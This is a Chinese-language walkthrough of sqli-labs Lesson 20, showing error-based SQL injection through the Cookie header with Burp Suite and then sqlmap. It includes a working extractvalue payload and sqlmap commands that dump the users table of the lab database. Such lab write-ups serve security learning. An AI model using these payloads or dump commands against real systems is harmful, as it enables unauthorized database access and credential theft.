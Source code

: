 ```yaml
---
title: sqli-labs lession 20 POST基于错误的Cookie-Uagent字段数据头注入
date: 2018-09-29 20:34:34
tags:
categories: sql注入
---
```

# sqli-labs lession 20 POST基于错误的Cookie-Uagent字段数据头注入 #

## 登录界面 ##

![1](\img\sql\Lesson-20\1.png)

## 分析 ##

不出所料账号密码被过滤了。

![2](\img\sql\Lesson-20\2.png)

用admin,admin登录成功,页面返回信息。

![3](\img\sql\Lesson-20\3.png)

这次页面拿了一堆信息。


从源码用可以得知登录成功后会保存用户登录名到cookie中,存活时间为1小时。再次刷新时会从数据库查询用户名等于cookie的数据,而cookie在SQL执行前没有过滤。这里得用Burpsuite做了。

![4](\img\sql\Lesson-20\4.png)

关闭phpstudy的magic_quotes_gpc配置,否则cookie数据中的特殊符号会被转义导致实验失败。

![5](\img\sql\Lesson-20\5.png)

## 注入 ##

首先以正确的用户账号登录

![6](\img\sql\Lesson-20\6.png)

然后开启firefox代理,用Burpsuite拦截包。刷新页面。

![7](\img\sql\Lesson-20\7.png)

截取到服务器请求获取cookie的包,发送到Repeater。

![8](\img\sql\Lesson-20\8.png)

修改`Cookie: uname=admin`为`Cookie: uname=admin'`,点击GO发送,查看归还界面。

![9](\img\sql\Lesson-20\9.png)

有报错信息后根据报错信息构造闭合,payload也呼之欲出。

![10](\img\sql\Lesson-20\10.png)

`Cookie: uname=admin' and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),0x7e))#`

![11](\img\sql\Lesson-20\11.png)

## SQLMAP ##

用Burpsuite抓取刷新页面的包,能够获得cookie信息。保存到文件。

![12](\img\sql\Lesson-20\12.png)

-r 指定HTTP请求报文

```
--level 2:加入检测cookie

--dbms mysql:指定后端数据库为mysql

--technique E:指定测试方式为报错注入

--thread 10:指定并发线程
```

`sqlmap -r sqlpost/post_20.txt --level 2 --dbms mysql --technique E --threads 10 `

![13](\img\sql\Lesson-20\13.png)

`sqlmap -r sqlpost/post_20.txt --level 2 --dbms mysql --technique E --threads 10 -D security -T users --columns --dump`

![14](\img\sql\Lesson-20\14.png)